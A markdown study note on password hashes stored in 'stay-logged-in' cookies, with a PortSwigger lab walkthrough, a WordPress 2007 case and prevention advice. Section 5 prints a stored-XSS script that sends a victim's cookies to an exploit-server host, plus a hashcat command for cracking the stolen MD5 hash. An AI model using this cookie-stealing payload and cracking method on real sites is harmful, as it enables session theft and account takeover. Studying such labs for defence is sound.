

# Keeping Users Logged In (Continued): Recovering a Cleartext Password from a Hashed Cookie

> **Topic:** Authentication vulnerabilities → "Keeping users logged in" (stay-logged-in / "remember me" cookies)
> **One-line takeaway:** Hashing a password does not protect it if the hash is *unsalted* and the password is *common*. An attacker may be able to turn the hash straight back into the real password with a lookup.
> **Lab covered:** [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking) (section 5).

---

## 1. The idea in plain words

Many sites offer a **"Remember me"** checkbox. Ticking it makes the site store a **persistent cookie** in your browser, so you stay logged in after closing the tab.

Some sites build that cookie badly, using your **password (hashed)** as part of the value. Something like:

```text
stay-logged-in = base64( username : md5(password) )
```

A hash looks like gibberish, so developers assume it is safe. But if the attacker's hash is **identical to a hash that already appears in a public list of "password → hash" pairs**, they can look the hash up and read the password. Often this takes seconds and no real cracking.

The "salt" part of the passage is the fix for exactly this problem. See [section 3](#salt).

---

## 2. Definitions (my own words)

| Term | What it means |
|---|---|
| **Cleartext password** | The real password exactly as the user typed it, e.g. `password123`. This is what the attacker ultimately wants. |
| **Hash** | A one-way "fingerprint" of some input. The same input always gives the same output, but you can't mathematically run it backwards. `password123` → `482c811da5d5b4bc6d497ffa98491e38` (MD5). |
| **Stay-logged-in cookie** | A long-lived cookie that proves "this browser was already authenticated". It is checked *instead of* asking for the password again. |
| **"Decrypting" a hash** | Loose wording. Hashes are not encrypted, so nothing is decrypted. What attackers really do is **guess-and-compare**: hash lots of candidate passwords and see which one produces the same hash. Lookup sites just do that work in advance. |
| **Precomputed hash list / rainbow table** | A giant table of *"common password → its hash"* pairs, built once and reused forever. Pasting a hash into a search engine or lookup site is effectively querying one of these. |
| **Salt** | A random value, unique per user, that is **mixed into the password before hashing** and stored next to the hash. It isn't secret, and its job is to make every hash unique. |

<a id="salt"></a>

### Why salt matters

Without salt, the hash is a pure function of the password:

- Everyone who uses `password123` gets the **same hash**, so one lookup breaks all of them at once.
- Precomputed tables work, because the attacker only has to build the table once.

With salt, the hash depends on **password + that user's random salt**:

- Two users with the same password get **different hashes**.
- A precomputed table is useless, because the attacker would need a separate table for every possible salt.
- The attacker has to attack **one hash at a time**, which is slow and expensive.

> [!NOTE]
> Salt does **not** make a weak password strong. It only removes the cheap shortcuts (lookups and "crack everyone at once"). A slow hashing algorithm (bcrypt, scrypt, Argon2) is still needed to make each guess costly.

---

## 3. How the attack flows



1. **Obtain the cookie.** Possible routes: an XSS bug, a shared or stolen device, plain-HTTP sniffing, or simply inspecting your *own* cookie to learn how it is built.
2. **Decode it.** Base64 is an *encoding*, not protection, so it reverses instantly.
3. **Extract the hash** from the decoded string.
4. **Look it up.** Paste it into a search engine or hash-lookup database. If the password was common and the hash unsalted, the answer appears.
5. **Reuse the password.** The attacker can log in normally, and because people reuse passwords, may also try it on email, banking and so on.

---

## 4. Worked example (real values you can reproduce)

Suppose a site stores the cookie as `base64(username:md5(password))`, and user `alice` has the password `password123`.

```bash
# 1. The hash of her password
$ echo -n "password123" | md5sum
482c811da5d5b4bc6d497ffa98491e38

# 2. The cookie the site sets
$ echo -n "alice:482c811da5d5b4bc6d497ffa98491e38" | base64 -w0
YWxpY2U6NDgyYzgxMWRhNWQ1YjRiYzZkNDk3ZmZhOTg0OTFlMzg=
```

**Attacker's view:**

```bash
# Decode the stolen cookie
$ echo "YWxpY2U6NDgyYzgxMWRhNWQ1YjRiYzZkNDk3ZmZhOTg0OTFlMzg=" | base64 -d
alice:482c811da5d5b4bc6d497ffa98491e38
```

Pasting `482c811da5d5b4bc6d497ffa98491e38` into a hash-lookup site returns `password123`. No cracking rig is needed.

### Unsalted vs. salted, side by side

Imagine `alice` and `bob` both chose `password123`.

| | Unsalted MD5 | Salted + slow (PBKDF2-HMAC-SHA256, 600,000 iterations) |
|---|---|---|
| alice | `482c811da5d5b4bc6d497ffa98491e38` | salt `a1b2c3d4e5f60718` → `fd293bf4daaab1ecb736d043089836467366c4c1d5c21b2d01dbe36ba60144cc` |
| bob | `482c811da5d5b4bc6d497ffa98491e38` | salt `0f1e2d3c4b5a6978` → `cf7a913d5bb56bae1b32eaa7ef8fb54600d798ed3b19f18a5c5f0f72e0039f36` |
| Same password gives the same hash? | **Yes**, so one lookup breaks both | **No**, so each must be attacked separately |
| Lookup tables useful? | **Yes** | **No** |

---

## 5. Lab walkthrough: Offline password cracking (PortSwigger, Practitioner)

**Lab:** [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking) — PortSwigger Web Security Academy
**Your credentials:** `wiener:peter` · **Victim:** `carlos`

> *"This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password."* — the lab's own description

This lab chains two bugs together: a **stored XSS** in the blog comments, and the exact **unsalted password-hash-in-a-cookie** problem described above. The XSS is only the delivery mechanism for the cookie — once the hash is in hand, the rest is the same attack walked through in [section 3](#3-how-the-attack-flows).

### Steps

1. **Log in with your own account.** Open the lab, go to *My account*, and log in as `wiener:peter`.

   

2. **Open a blog post.** From the homepage, click into any post — the comment form there is where the XSS lives.

   

3. **Post a malicious comment.** Submit a comment whose body is a `<script>` payload that redirects the visitor's browser to your exploit server with their cookies appended:

   ```html
   <script>document.location='https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/'+document.cookie</script>
   ```

   

   Your exploit server's own URL is on the *Exploit server* tab (**Go to exploit server**). The lab periodically simulates an admin/victim browsing posts, so once Carlos loads this comment, his browser's `document.cookie` — including his `stay-logged-in` cookie — gets appended to the redirect and sent to your server.

4. **Read the stolen cookie from the access log.** On the exploit server tab, open **Access log** and wait for a hit from Carlos. The request path carries his cookies as plaintext.

   

5. **Decode the stolen `stay-logged-in` cookie.** Copy Carlos's `stay-logged-in` value into Burp's **Decoder** and decode it as Base64 — the exact same move as the worked example in [section 4](#4-worked-example-real-values-you-can-reproduce). This reveals `carlos:<md5-hash>`.

   

6. **Crack the MD5 hash offline.** Save the hash to a file and run it through hashcat against a wordlist (e.g. `rockyou.txt`), rather than an online lookup tool:

   ```bash
   hashcat -m 0 -a 0 carlos_hash.txt rockyou.txt
   ```

   `-m 0` selects raw MD5; `-a 0` is a straight dictionary attack. This recovers Carlos's cleartext password.

   

   > **Why hashcat and not a web lookup tool, on a real engagement:** pasting a client's hash into a third-party site hands that site a working credential for a real person, and can leak which organization is being tested. In the lab it doesn't matter, but the habit does — crack offline, locally, with your own wordlist.

7. **Log in as Carlos and delete the account.** Use the recovered password to log in as `carlos` on the real login form, go to *My account*, and delete the account. This solves the lab.

### Why this is the same bug as the worked example

The XSS only *delivers* the cookie to the attacker; it isn't what makes the cookie dangerous. The underlying flaw is identical to [section 1](#1-the-idea-in-plain-words): the `stay-logged-in` cookie is `base64(username:md5(password))`, so anyone who obtains it — by XSS here, but just as well by network sniffing, a shared computer, or a leaked log file — can decode it and crack the password offline. Salting the hash and keeping passwords out of cookies entirely ([section 7](#7-how-to-prevent-it)) would have blocked step 6 even after the XSS had already stolen the cookie.

---

## 6. Real-world example: WordPress 1.5 – 2.3.1 (2007)

Older WordPress versions kept users logged in with two cookies. One was `wordpressuser_<hash>` (the login name). The other was `wordpresspass_<hash>`, whose value was the **double-MD5 hash of the user's password**.

A University of Cambridge security advisory (2007-11-19) described the consequences:

- **The password-derived value was in the browser all the time.** Anyone who got hold of the cookie (XSS, sniffing on an unencrypted connection, a shared computer) held a value derived straight from the password.
- **It was unsalted.** `md5(md5(password))` is the same for every user with that password, so a weak password could be recovered with the same lookup-table approach described above.
- **The database made it worse.** WordPress stored a single MD5 of the password, so anyone who could read the user table (for example through SQL injection) could compute a valid `wordpresspass` cookie *without knowing the password*, and log in as that user.

WordPress later replaced this scheme (from 2.5 onwards) with salted password hashing and signed cookies, and newer versions add server-side session tokens.

**Related case, same lesson (from my own knowledge, not re-verified here):** the 2012 LinkedIn breach leaked millions of password hashes that were *unsalted SHA-1*. Large numbers of them were cracked within days, because the hashes could be matched against lists of common passwords.

---

## 7. How to prevent it

- **Never put a password, or anything derived from it, in a cookie.** Don't use `base64(username:hash)`.
- **Use a random persistent token** from a cryptographically secure random generator (at least 128 bits), unrelated to the password.
  - Store only a **hash of the token** on the server, so a database leak can't be replayed.
  - Tie it to the user and a device, **expire it**, **rotate it** on use, and allow **revocation** (e.g. "log out everywhere", automatic revocation on password change).
- **Hash passwords properly:** a unique random salt per user and a slow, purpose-built algorithm (**Argon2id**, **bcrypt** or **scrypt**). Never plain MD5 or SHA-1, which are fast and easy to attack.
- **Set cookie flags:** `HttpOnly` (blocks JavaScript access, which limits XSS theft), `Secure` (HTTPS only) and `SameSite`.
- **Block common passwords** at registration so that a weak password can't be the weak link.

---

## 8. Quick recap

| Question | Answer |
|---|---|
| What's the flaw? | A password hash sits in a cookie the user, and anyone who steals it, can read. |
| Why is hashing alone not enough? | Common passwords have public, precomputed hashes. Unsalted hashes can simply be looked up. |
| What does salt change? | Each hash becomes unique, so lookup tables stop working and every hash must be attacked individually. |
| What is the real fix? | Don't put password material in cookies at all. Use random, server-side, revocable tokens. |

---

> [!WARNING]
> **Educational use only.** Test these techniques only on systems you own or are explicitly authorized to test, such as the PortSwigger Web Security Academy labs.

## Sources

- [PortSwigger Web Security Academy: Vulnerabilities in other authentication mechanisms → Keeping users logged in](https://portswigger.net/web-security/authentication/other-mechanisms)
- [PortSwigger Web Security Academy: Lab — Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
- [University of Cambridge advisory: WordPress cookie authentication weakness (2007-11-19)](https://www.cl.cam.ac.uk/~sjm217/advisories/wordpress-cookie-auth.txt)
